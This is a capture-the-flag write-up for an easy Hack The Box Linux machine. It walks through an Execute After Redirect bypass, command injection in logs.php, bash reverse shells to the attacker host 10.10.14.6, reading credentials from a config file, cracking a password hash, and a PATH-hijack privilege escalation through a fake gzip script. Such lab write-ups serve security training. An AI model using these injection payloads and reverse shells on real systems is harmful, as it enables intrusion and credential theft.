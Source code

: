 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.104
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.11.104
```

---

## 🕵️ EAR Vulnerability (Execute After Redirect)
- Intercept `HTTP 302` redirect and change it to `200 OK` in Burp Suite.
- Burp ➝ Proxy ➝ Intercept Server Responses ➝ Enable ➝ Intercept Response ➝ Modify `302 Found` to `200 OK`

---

## 👤 Account Creation (via EAR Bypass)
- Navigate to `/accounts.php` using modified redirect bypass.
- Fill out user registration ➝ Login normally after creation.

---

## 📦 Download Site Source
- Navigate to `/files.php` and download `siteBackup.zip`
- Unzip to reveal all PHP source files.

---

## 🧪 Command Injection in [logs.php](HTTP)
### Without Source
- Interact with `file_logs.php`
- Modify POST request:
```bash
delim=comma;ping+-c+1+10.10.14.6
```

### With Source
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

---

## ⚙️ Gaining Reverse Shell (as www-data)
```bash
# Listener
nc -lnvp 443

# Burp ➝ Intercept POST ➝ Modify
POST /logs.php

delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' #
```

### Shell Upgrade
```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
TERM=screen
```

---

## 🔍 Enumeration (as www-data)
```bash
cat /var/www/html/config.php
mysql -u root -p'mySQL_p@ssw0rd!:)'
```

### Dump User Hash
```sql
select * from accounts;
```

### Crack Hash
```bash
hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔐 Shell as m4lwhere (via SSH)
```bash
ssh m4lwhere@10.10.11.104
# password: ilovecody112235!
```

---

## 🔼 Root Escalation — Path Hijack
### Sudo Priv
```bash
sudo -l
```
```bash
(ALL) NOPASSWD: /opt/scripts/access_backup.sh
```

### Create Malicious gzip
```bash
cd /dev/shm
echo '#!/bin/bash' > gzip
echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' >> gzip
chmod +x gzip
export PATH=/dev/shm:$PATH

# Listener:
nc -lnvp 443

# Trigger
sudo /opt/scripts/access_backup.sh
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📚 Resources
- EAR Ref: OWASP Execute After Redirect
- SQLi INSERT Exploit: George Koniaris video
- Beyond Root:
  - Misconfigured `/etc/sudoers`
  - `secure_path` omitted ➝ Path Hijack vulnerability